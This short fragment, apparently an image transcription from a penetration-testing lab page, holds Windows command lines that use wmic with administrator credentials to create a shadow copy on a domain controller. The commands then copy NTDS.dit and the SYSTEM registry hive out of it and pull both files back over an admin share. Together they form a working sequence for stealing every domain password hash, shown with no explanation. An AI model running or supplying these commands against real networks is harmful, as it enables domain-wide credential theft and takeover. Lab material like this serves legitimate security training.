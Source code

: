 	>wmic /node:dc /user:xxxx\admin /password:passwd process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
	>wmic /node:dc /user:P xxxx\admin /password: passwd process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit 2>&1"
	>wmic /node:dc /user: xxxx\admin /password: passwd process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM\ C:\temp\SYSTEM.hive 2>&1"
	>copy \\10.0.0.1\c$\temp\ntds.dit C:\temp
	PS C:\Users\test.PENTESTLAB> copy \\10.0.0.1\c$\temp\SYSTEM.hive C:\temp
